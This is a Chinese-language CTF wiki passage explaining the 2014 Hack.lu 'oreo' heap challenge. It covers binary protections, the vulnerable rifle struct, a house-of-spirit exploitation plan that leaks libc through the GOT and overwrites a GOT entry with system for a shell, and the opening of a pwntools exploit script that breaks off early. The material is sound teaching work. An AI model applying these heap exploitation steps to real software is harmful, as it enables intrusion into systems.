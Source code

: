 ```shell
➜  2014_Hack.lu_oreo git:(master) file oreo
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
➜  2014_Hack.lu_oreo git:(master) checksec oreo
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_spirit/2014_Hack.lu_oreo/oreo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，程序确实是比较老的，32位程序，动态链接，就连 RELRO 技术也没有上。

### 基本功能

**需要注意的是，该程序并没有进行 setvbuf 操作，因此在初次执行 io 函数时，会在堆上分配空间。**

正如程序中直接输出的信息，程序主要是一个原始的在线枪支系统。其中，根据添加枪支的过程，我们可以得到枪支的基本结构如下

```c
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

程序的基本功能如下

- 添加枪支，其主要会读取枪支的名字与描述。但问题在于读取的名字的长度过长，可以覆盖 next 指针以及后面堆块的数据。可以覆盖后面堆块的数据大小为 56-(56-27)=27 大小。需要注意的是，这些枪支的大小都是在fastbin 范围内的。
- 展示添加枪支，即从头到尾输出枪支的描述与名字。
- 订已经选择的枪支，即将所有已经添加的枪支释放掉，但是并没有置为NULL。
- 留下订货消息
- 展示目前状态，即添加了多少只枪，订了多少单，留下了什么信息。

不难分析得到，程序的漏洞主要存在于添加枪支时的堆溢出漏洞。

### 利用

基本利用思路如下

1. 由于程序存在堆溢出漏洞，而且还可以控制 next 指针，我们可以直接控制 next 指针指向程序中 got 表的位置。当进行展示的时候，即可以输出对应的内容，这里同时需要确保假设对应地址为一个枪支结构体时，其 next 指针为 NULL。这里我采用 puts@got。通过这样的操作，我们就可以获得出 libc 基地址，以及 system 函数地址。
2. 由于枪支结构体大小是 0x38 大小，所以其对应的 chunk 为 0x40。这里采用 `house of sprit` 的技术来返回 0x0804A2A8 处的chunk，即留下的消息的指针。因此，我们需要设置 0x0804A2A4 处的内容为 0x40，即需要添加 0x40 支枪支，从而绕过大小检测。同时为了确保可以绕过 next chunk 的检测，这里我们编辑留下的消息。
3. 在成功分配这样的 chunk 后，我们其实就有了一个任意地址修改的漏洞，这里我们可以选择修改一个合适的 got 项为 system 地址，从而获得 shell。

具体代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
```